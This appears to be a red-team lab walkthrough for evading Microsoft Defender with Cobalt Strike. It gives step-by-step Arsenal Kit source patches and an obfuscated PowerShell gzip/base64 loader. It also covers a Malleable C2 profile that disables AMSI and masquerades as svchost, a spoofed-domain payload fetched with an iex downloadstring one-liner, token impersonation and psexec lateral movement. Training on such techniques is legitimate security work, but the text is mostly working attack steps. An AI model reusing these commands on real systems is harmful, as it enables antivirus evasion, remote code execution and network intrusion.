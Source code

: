 
### Defence Evasion Lab

#### Artifacts
- Launch Visual Studio Code.
    
-  Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\arsenal-kit\kits\artifact_.
    
-  Navigate to _src-common_ and open _patch.c_.
    
-  Scroll to line ~45 and modify the _for_ loop. This is for the svc exe payloads.
    
    cTypeCopy
    
    `x = length; while(x--) {   *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8]; }`
    
-  Scroll to line ~116 and modify the other _for_ loop. This is for the normal exe payloads.
    
    cTypeCopy
    
    `int x = length; while(x--) {   *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8]; }`
    
-  Save the changes (**File > Save**) and close the folder (**File > Close Folder**).
    
-  On the Windows taskbar, right-click on the Terminal icon launch Ubuntu.
    
-  Change the working directory.
    
    1. cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
-  Run **build.sh** to build the new artifacts.
    
    1. ./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
-  Open the Cobalt Strike client and load **artifact.cna** from _C:\Tools\cobaltstrike\custom-artifacts\mailslot_.

### Resources

1.  If not already open from the previous task, launch Ubuntu from the Windows Terminal.
    
2.  Change the working directory.
    
    1. cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
3.  Run **build.sh** to build new resources.
    
    1. ./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
4.  If not already open from the previous task, launch Visual Studio Code.
    
5.  Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\custom-resources_.
    
6.  Select **template.x64.ps1**.
    
7.  Rename the _func_get_proc_address_ function on line 3 to _get_proc_address_.
    
8.  Rename the _func_get_delegate_type_ function on line 10 to _get_delegate_type_.
    
    > Use **Edit > Replace**.
    
9.  Scroll to line 32 and replace it with:
    
    powershellTypeCopy
    
    `$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool]))) $ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)`
    
10.  Save the changes (**File > Save**).
    
11.  Select **compress.ps1**.
    
12.  Use Invoke-Obfuscation to create a unique obfuscated version, or try the following:
    
    powershellTypeCopy
    
    ``SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();``
    
13.  Save the changes (**File > Save**).
    
14.  Open the Cobalt Strike client and load **resources.cna** from _C:\Tools\cobaltstrike\custom-resources_.

### Malleable C2

1.  Open a new PowerShell window in Terminal.
    
2.  SSH into the team server VM.
    
    1. ssh attacker@10.0.0.5
    
    > The password is Passw0rd!.
    
3.  Move into the profiles directory.
    
    1. cd /opt/cobaltstrike/profiles
4.  Open **default.profile** in a text editor (e.g. vim or nano).
    
5.  Add the following stage block:
    
    c2profileTypeCopy
    
    `stage {    set userwx "false";    set module_x64 "Hydrogen.dll";  # use a different module if you like    set copy_pe_header "false"; }`
    
6.  Add the following post-ex block:
    
    c2profileTypeCopy
    
    `post-ex {   set amsi_disable "true";   set spawnto_x64 "%windir%\\sysnative\\svchost.exe";   set obfuscate "true";   set cleanup "true";    transform-x64 {       strrep "ReflectiveLoader" "NetlogonMain";       strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";       strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";        # add any other transforms that you want   } }`
    
7.  Add the following process-inject block:
    
    c2profileTypeCopy
    
    `process-inject {   execute {       NtQueueApcThread-s;       NtQueueApcThread;       SetThreadContext;       RtlCreateUserThread;       CreateThread;   } }`
    
8.  Save the changes.
    
9.  Restart the team server.
    
    1. sudo /usr/bin/docker restart cobaltstrike-cs-1
    
    > If the container fails to restart properly use sudo /usr/bin/docker logs cobaltstrike-cs-1 to see the profile errors.
    

# Testing

1.  Build new payloads
    
    1. Go to **Payloads > Windows Stageless Generate All Payloads**
    2. Folder: C:\Payloads
2.  Host a 64-bit PowerShell payload.
    
    1. Go to **Site Management > Host File**
    2. File: _C:\Payloads\http_x64.ps1_
    3. Local URI: /test
    4. Local Host: www.bleepincomputer.com
3.  Switch to [Workstation 1](https://labclient.labondemand.com/Instructions/315c5b32-3074-4897-8a78-eb9f1005d587?showWhenStarting=1#) and login with Passw0rd!.
    
4.  Open a PowerShell window.
    
5.  Verify that Defender's Real-Time Protection is enabled.
    
    1. (Get-MpPreference).DisableRealtimeMonitoring
    
    > DisableRealtimeMonitoring should return as False.
    
6.  Download and invoke the PowerShell payload.
    
    powershellTypeCopy
    
    `iex (new-object net.webclient).downloadstring("http://www.bleepincomputer.com/test")`
    
7.  Switch back to [Attacker Desktop](https://labclient.labondemand.com/Instructions/315c5b32-3074-4897-8a78-eb9f1005d587?showWhenStarting=1#) and a new Beacon should be checking in.
    
8.  From the new Beacon, impersonate a local admin to _lon-ws-1_.
    
    1. make_token CONTOSO\rsteel Passw0rd!
9.  Verify that Defender's Real-Time Protection is enabled on the target.
    
    1. remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
10.  Change the spawnto for the service payload.
    
    1. ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
11.  Move laterally to _lon-ws-1_.
    
    1. jump psexec64 lon-ws-1 smb